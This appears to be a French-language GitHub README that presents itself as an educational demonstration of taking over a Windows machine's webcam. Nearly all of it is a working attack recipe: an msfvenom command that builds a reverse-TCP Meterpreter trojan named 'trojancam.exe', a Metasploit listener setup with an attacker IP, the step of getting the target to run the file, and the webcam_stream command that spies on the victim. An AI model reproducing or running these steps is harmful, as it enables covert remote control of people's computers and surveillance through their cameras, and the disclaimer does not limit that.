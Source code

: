 # 🎯 Contrôle de Webcam via Meterpreter – Démonstration Éducative

Ce projet démontre comment établir une session Meterpreter sur une machine Windows cible afin d'accéder à sa webcam. Il est destiné à des fins éducatives et de sensibilisation à la cybersécurité.

## 🧰 Outils utilisés

- Metasploit Framework (préinstallé sur Kali Linux)​
- Python 3 (pour l'envoi du payload)​
- Wireshark (optionnel, pour l'analyse du trafic réseau)​
- Ettercap (optionnel, pour les attaques de type Man-in-the-Middle)

## ⚠️ Avertissement
Ce projet est destiné à des fins éducatives uniquement. L'utilisation de ces techniques sans le consentement explicite des parties concernées est illégale et contraire à l'éthique. L'auteur décline toute responsabilité en cas d'utilisation abusive.

## 🚀 Étapes pour reproduire l'attaque

### 1. Générer le Payload avec Metasploit
Utiliser ```msfvenom``` pour créer un exécutable malveillant qui établira une connexion inversée vers votre machine Kali :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip locale attaquant} LPORT=4444 -f exe -o trojancam.exe
```
- LHOST : adresse IP de votre machine Kali​
- LPORT : port d'écoute sur Kali (4444 par défaut)

### 2. Configurer un listener sur Kali (port d'écoute)
Lancer Metasploit et configurer un handler pour écouter les connexions entrantes :
```bash
msfconsole
```
Puis après lancement de Metasploit dans le terminal :
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.51
set LPORT 4444
exploit
```

### 3. Déployer le payload sur la machine cible
Transférer trojancam.exe sur la machine cible et l'exécuter. Cela établira une session Meterpreter entre la cible et la machine Kali.

### 4. Accéder à la Webcam de la Cible
Une fois la session Meterpreter établie, activer la webcam de la cible :​
```bash
webcam_stream
```
Cela ouvrira une interface web diffusant le flux vidéo de la webcam de la cible.

## Crédits

[iciamyplant/camera_hack](https://github.com/iciamyplant/camera_hack)
Répertoire initial qui m'a permis de comprendre le fonctionnement de Metasploit.
